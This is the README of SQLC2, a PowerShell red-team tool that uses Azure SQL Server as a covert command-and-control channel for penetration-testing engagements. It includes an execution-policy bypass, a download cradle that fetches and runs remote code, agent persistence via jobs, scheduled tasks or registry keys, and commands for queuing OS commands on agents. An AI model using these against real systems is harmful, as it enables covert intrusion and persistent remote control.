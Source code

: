 # SQLC2
SQLC2 is a PowerShell script for deploying and managing a command and control system that uses SQL Server as both the control server and the agent.  For more information and a walkthrough of how to get started with SQLC2 setup check out the blog at https://blog.netspi.com/.

# Why Bother with a SQL Server Based C2?
More companies are starting to use Azure SQL Server databases. When those Azure SQL Server instances are created, they are made accessible via a subdomain of database.windows.net on port 1433. For example, I could create SQL Server instance named "mysupersqlserver.database.windows.net". As a result, some corporate network configurations allow outbound internet access to any "database.windows.net" subdomain on port 1433. 

The general idea is that as Azure SQL Server adoption grows, there will be more opportunity to use SQL Server as a control channel that looks kind of like normal traffic.  SQLPS is a pretty basic proof of concept, but I think it’s functional enough to illustrate the idea. I know there are quite a few improvements to be made, but if you end up playing with it, I’d love to hear any feedback you have.

At its core, SQLC2 is just a few tables in an SQL Server instance that tracks agents, commands, and results. Nothing too fancy, but it may prove to be useful on some engagements.  Although this blog focuses on using an Azure SQL Server instance, you could host your own SQL Server in any cloud environment and have it listen on port 443 with SSL enabled. So, it could offer a little more flexibility depending on how much effort you want to put into it.

# Loading SQLC2
* **Option 1:** Download the script and import it.  This does not require administrative privileges and will only be imported into the current session.  However, it may be blocked by restrictive execution policies, so you may want to use the bypass option.

    `Set-ExecutionPolicy Bypass -Scope Process`
    
    `Import-Module SQLC2.psm1`
    
* **Option 2:** Load it into a session via a download cradle.  This does not require administrative privileges and will only be imported into the current session.  It should not be blocked by executions policies.

    `IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/SQLC2/master/SQLC2.psm1")`

     **Note:** To run as an alternative domain user, use the runas command to launch PowerShell first. 

    `runas /noprofile /netonly /user:domain\user PowerShell.exe`
    
# Basic SQLC2 architecture diagram
![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/arch.png) 

# User Functions
Below is a list of user functions that support the intended workflows.  

|Function Name|Description |
|:--------------------------------|:-----------|
|Install-SQLC2Server|Install SQLC2 tables on target SQL Server/database.|
|Install-SQLC2AgentPs|Install an agent that uses an SQL Server agent job and server link.|
|Install-SQLC2AgentLink|Install an agent that uses a schedule task or registry key to execute PowerShell commands.|
|Set-SQLC2Command|Set operating system commands for agents to run.|
|Get-SQLC2Command|Get a list of pending operating system commands from the C2 for the agent.  This can also execute the pending command with the -Execute flag.|
|Get-SQLC2Agent|Get a list of agents registered on the SQLC2 server.| 
|Get-SQLC2Result|Get a list of pending and completed commands. Support servername, status, and cid filters.|
|Remove-SQLC2Agent|Remove agents registered on the SQLC2. Simply clears the history.|
|Remove-SQLC2Command|Remove the command history on the SQLC2 server.|
|Uninstall-SQLC2AgentLink|Uninstall SQLC2 agent that uses server links and an agent job.|
|Uninstall-SQLC2AgentPs|Uninstall all operating system based persistence methods.|
|Uninstall-SQLC2Server|Remove the SQLC2 tables from the target database.|

# Screen Shots
Below are a few sample screenshots.

Install SQLC2 Server (Create tables):
Install-SQLC2Server -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
![Install C2](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Server.png) 

Install SQLC2 Agent (SQL Server agent Job that uses a server link):
Install-SQLC2AgentPs -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
![Install Agent](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Link_Agent.png)  

View SQLC2 Agents:
Get-SQLC2Agent -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/Get-Command-Results.png) 

Set Command to Run on Agent:
Set-SQLC2Command -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!' -Command "Whoami" -ServerName MSSQLSRV04
![Set_Command](https://github.com/NetSPI/SQLC2/blob/master/images/Set%20Command%20to%20Run%20on%20Agent.png)        

Get Command Results:
Get-SQLC2Result -Verbose -ServerName "MSSQLSRV04" -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
![Get Command Output](https://github.com/NetSPI/SQLC2/blob/master/images/List%20execute%20agent%20commands.png)       

### Author and License
* Author: Scott Sutherland (@_nullbind), NetSPI - 2018
* License: BSD 3-Clause
* Required Dependencies: None
